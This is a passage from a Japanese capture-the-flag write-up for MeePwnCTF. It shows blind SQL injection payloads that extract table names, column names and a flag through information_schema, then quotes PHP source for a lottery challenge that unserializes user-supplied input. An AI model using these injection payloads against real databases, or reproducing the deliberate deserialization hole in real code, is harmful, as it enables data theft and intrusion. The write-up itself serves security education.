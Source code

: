 ```python
```

これでバージョンは `5.7.18-0ubuntu0.16.04.1` と分かりました。

`"' or (select ascii(lpad(reverse(lpad(group_concat(table_name),{},'')),1,'')) & {} from information_schema.tables where table_schema like database()) or 'A' < 'A"` に変えると `buyflag,flagflag7847560c748814fd3070e9149a9578bd,users` の 3 つのテーブルが存在することが分かりました。

`"' or (select ascii(lpad(reverse(lpad(group_concat(column_name),{},'')),1,'')) & {} from information_schema.columns where table_name like 'flag%') or 'A' < 'A"` に変えると `flagflag7847560c748814fd3070e9149a9578bd` は `flag` というテーブルを持つとわかりました。

あとは `"' or (select ascii(lpad(reverse(lpad(flag,{},'')),1,'')) & {} from flagflag7847560c748814fd3070e9149a9578bd) or 'A' < 'A"` に変えるとフラグが得られました。

```
MeePwnCTF{all_the_roads_lead_to_rome@31337}
```

## [Web 100] TSULOTT

与えられた URL にアクセスすると、6 つの数を入力してコードを得るフォームと、発行されたコードを入力して当選したかどうか判定してくれるフォームが表示されました。

ソースを見ると `<!-- GET is_debug=1 -->` というコメントがありました。

`/?is_debug=1` にアクセスすると以下のようにソースが表示されました。

```php
...
<?php 
class Object  
{  
  var $jackpot; 
  var $enter;  
} 
?> 


<?php 

include('secret.php'); 

if(isset($_GET['input']))   
{ 
  $obj = unserialize(base64_decode($_GET['input'])); 
  if($obj) 
  { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);  
    if($obj->enter === $obj->jackpot) 
    { 
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>"; 
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>"; 
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>"; 

    } 
    else 
    { 
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>"; 
    } 
  } 
```